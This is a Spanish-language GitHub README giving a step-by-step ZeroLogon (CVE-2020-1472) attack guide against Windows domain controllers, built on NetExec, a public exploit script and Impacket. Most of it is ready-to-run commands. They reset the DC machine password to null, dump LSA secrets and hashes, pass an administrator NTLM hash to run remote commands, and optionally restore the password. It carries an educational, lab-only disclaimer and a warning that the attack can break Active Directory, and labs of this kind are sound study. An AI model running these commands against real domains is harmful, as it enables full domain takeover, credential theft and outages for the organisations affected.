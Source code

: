 # 📌 Ataque ZeroLogon (CVE-2020-1472)

Este repositorio documenta paso a paso cómo ejecutar el ataque **ZeroLogon** utilizando `NetExec` (antes CrackMapExec), el exploit de [VoidSec](https://github.com/VoidSec/CVE-2020-1472) y herramientas de Impacket.

---

## ⚠️ Importante

> Esta guía es solo para fines **educativos** y debe usarse únicamente en laboratorios controlados con permiso explícito. **NO** ejecutes este procedimiento en redes productivas.

---

## ⚙️ Requisitos

- Controlador de dominio sin parches para CVE-2020-1472.
- Máquina atacante con:
  - Linux o WSL.
  - Python 3.
  - NetExec (`nxc`), Impacket y Git instalados.

---

## 🧭 Paso a paso del ataque

### 1. Verificar conectividad SMB con el DC

```bash
nxc smb [IP_DEL_DC]
```

Repetir si es necesario para confirmar acceso:

```bash
nxc smb [IP_DEL_DC]
```

---

### 2. Explotar ZeroLogon con NetExec

```bash
nxc smb [IP_DEL_DC] -u '' -p '' -M zerologon

CHECKEAR esto y si es vulnerable.... lo siguiente
```

Este módulo intenta autenticar usando claves nulas y explotar la vulnerabilidad en Netlogon.

---

### 3. Clonar el exploit de VoidSec

```bash
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472
```

---

### 4. Cambiar la contraseña de la cuenta de equipo del DC

```bash
python3 cve-2020-1472-exploit.py (para ver si no hay que instalar añgun requisito)
```

O usar argumentos manuales:

```bash
python3 cve-2020-1472-exploit.py -t [IP_DEL_DC] -n [NOMBRE_DEL_DC]
```

---

### 5. Volcar hashes con Impacket

```bash
impacket-secretsdump '[NOMBRE_DEL_DOMINIO_AD]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

Esto permite obtener los secretos de LSA y hash de administrador.

---

### 6. Validar acceso como máquina y luego como administrador (Para dumpear hex de maquina para recuperar contraseña)

```bash
nxc smb [IP_DEL_DC] -u '[NOMBRE_DEL_DC]$' -p '' --lsa
```

Con hash de administrador (por ejemplo):

```bash
nxc smb [IP_DEL_DC] -u '[USUARIO_ADMINISTRADOR]' -H '[HASH_DE_ADMINISTRADOR]' --lsa
```

---

### 7. Restaurar la contraseña original del DC (opcional)

```bash
python3 reinstall_original_pw.py
```

O con argumentos:

```bash
python3 reinstall_original_pw.py [NOMBRE_DEL_DC]$ [IP_DEL_DC] [HEX DE CONTRASEÑA DEL DC]
```

---

### 8. Validar acceso final con hash NTLM

```bash
impacket-secretsdump '[NOMBRE_DEL_DOMINIO_AD]/[NOMBRE_DEL_DC]$@[IP_DEL_DC]'
```

---

### 9. Ejecutar comando remoto como administrador

```bash
nxc smb [IP_DEL_DC] -u 'administrator' -H 'b8f81826afbf8feae22924970055d318' -x whoami
```

---

## 🧪 ¿Qué hicimos?

- Usamos `nxc` para aprovechar la vulnerabilidad en Netlogon.
- Reemplazamos la contraseña de la cuenta del DC con una contraseña nula.
- Extraímos hashes y secretos del sistema.
- Accedimos remotamente como administrador de dominio.
- Finalmente restauramos el estado original (opcional).

---

## 📚 Referencias

- [ZeroLogon CVE-2020-1472 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2020-1472)
- [VoidSec CVE-2020-1472 Exploit](https://github.com/VoidSec/CVE-2020-1472)
- [NetExec (nxc)](https://github.com/Pennyw0rth/NetExec)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

------

## 🚨 Advertencia

### Riesgo crítico: el AD puede romperse
El exploit ZeroLogon cambia la contraseña de la cuenta de máquina del controlador de dominio (DC01$). Si no se restaura rápidamente, el controlador ya no podrá autenticarse ni replicarse con otros DCs.

Esto puede:

Romper la replicación del Active Directory.

Causar fallos en políticas, usuarios y servicios.

Obligar a restaurar el dominio desde backups.

### 🛑 Siempre restaurá la contraseña original del DC antes de que se sincronice con otros controladores.

---

## 👤 Autor

Explicación elaborada por [Sebastian Peinador](https://www.linkedin.com/in/sebastian-j-peinador/) para propósitos didácticos y de investigación en ciberseguridad ofensiva.
